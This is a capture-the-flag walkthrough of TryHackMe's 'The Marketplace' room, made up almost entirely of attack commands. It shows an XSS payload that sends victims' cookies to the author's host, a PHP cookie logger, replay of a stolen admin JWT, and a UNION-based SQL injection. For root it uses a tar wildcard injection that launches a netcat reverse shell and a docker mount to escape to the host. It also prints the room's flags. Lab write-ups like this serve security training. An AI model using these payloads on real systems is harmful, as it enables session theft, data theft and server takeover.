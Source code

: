 # <div align="center">[The Marketplace](https://tryhackme.com/r/room/marketplace)</div>
<div align="center">Can you take over The Marketplace's infrastructure?</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/e5dd3e52-6ba0-4cee-a3fc-5a3c86816ac8" height="200"></img>
</div>

## Task 1. The Marketplace

The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.

Can you take advantage of this and will you be able to gain root access on his server?

### What is flag 1?
```
nmap -sSCV -p- <IP>
<script>document.location='http://<my_own_IP>:8000/grabber.php?c='+document.cookie</script>

cat > grabber.php << EOF
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
EOF

nc -nlvp 8000
GET /grabber.php?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig HTTP/1.1
GET /admin HTTP/1.1
```
```
THM{c37a63895910e478f28669b048c348d5}
```
### What is flag 2? (User.txt)
```
curl -s --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig" \
http://<IP>/admin?user=`urlencode "0 UNION SELECT 1,GROUP_CONCAT(message_content),3,4 FROM marketplace.messages"` | tail cat user.txt
```
```
THM{c3648ee7af1369676e3e4b15da6dc0b4}
```
### What is flag 3? (Root.txt)
```
id michael
find / -type f -user michael -exec ls -l {} + 2>/dev/null
cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *

sudo -l
cat > /opt/backups/shell.sh << EOF
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.50.72 4444 >/tmp/f
EOF

chmod +x /opt/backups/shell.sh
touch "/opt/backups/--checkpoint=1"
touch "/opt/backups/--checkpoint-action=exec=sh shell.sh"
cd /opt/backups/
sudo -u michael /opt/backups/backup.sh

nc -nlvp 4444
id
docker image ls
python3 -c "import pty;pty.spawn('/bin/bash')"
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
id
cat /root/root.txt
```
```
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```

